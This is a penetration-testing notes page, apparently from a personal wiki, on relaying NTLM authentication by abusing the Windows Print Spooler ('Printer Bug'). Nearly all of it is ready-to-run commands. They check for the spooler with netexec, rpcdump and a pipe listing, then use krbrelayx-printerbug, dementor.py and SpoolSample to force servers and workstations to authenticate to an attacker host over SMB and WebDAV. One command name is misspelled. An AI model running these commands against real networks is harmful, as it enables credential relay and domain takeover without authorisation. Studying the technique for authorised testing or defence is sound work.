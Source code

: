 ```yaml
---
title: NTLM Relay from Print Spooler
---
```


[[notes/ad/ntlm-relay-source]] as domain user from clients and servers trough [[notes/network/msrpc]] *Print System Remote Protocol* ([MS-RPRN](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/)).
Also known as Printer Bug and Spool Sample.

Check if the print spooler service is running on a system.

=== "[[notes/tools/netexec]]"
    ~~~ bash
    netexec smb 192.168.178.0/24 -d corp.local -u jdoe -p 'passw0rd' -M spooler
    ~~~

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impakcet-rpcdump corp/jdoe:'passw0rd'@srv01.corp.local | grep -A2 -e MS-RPRN -e MS-PAR
    ~~~

=== "PowerShell"
    Pipe exists if running.

    ~~~ powershell
    ls \\srv01.corp.local\pipe\spoolss
    ~~~

[[notes/ad/ntlm-relay-from-smb|Coerce authentication from SMB]].

=== "[[notes/tools/krbrelayx]]"
    ~~~ bash
    krbrelayx-printerbug corp.local/jdoe:'passw0rd'@srv01.corp.local 172.18.56.49
    ~~~

=== "[dementor](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc)"
    ~~~ bash
    ./dementor.py -d corp.local -u jdoe -p passw0rd 172.18.56.49 srv01.corp.local
    ~~~

=== "[SpoolSample](https://github.com/leechristensen/spoolsample)"
    ~~~ bat
    .\SpoolSample.exe srv01.corp.local 172.18.56.49
    ~~~

[[notes/ad/ntlm-relay-from-webdav|Coerce authenticate from WebDAV]].

=== "[[notes/tools/krbrelayx]]"
    ~~~ bash
    krbrelayx-printerbug corp.local/jdoe:'passw0rd'@ws01.corp.local hackerpc@80/print
    ~~~

=== "[dementor](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc)"
    ~~~ bash
    ./dementor.py -d corp.local -u jdoe -p 'passw0rd' hackerpc@80/print ws01.corp.local
    ./dementor.py -d corp.local -u jdoe -p 'passw0rd' hackerpc@SSL@443/print ws01.corp.local
    ~~~

=== "[SpoolSample](https://github.com/leechristensen/spoolsample)"
    ~~~ bat
    .\SpoolSample.exe ws01.corp.local hackerpc@80/print
    ~~~

References:

- [ppn.snovvcrash.rocks/pentest/infrastructure/ad/authentication-coercion](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/authentication-coercion#printer-bug-ms-rprn)
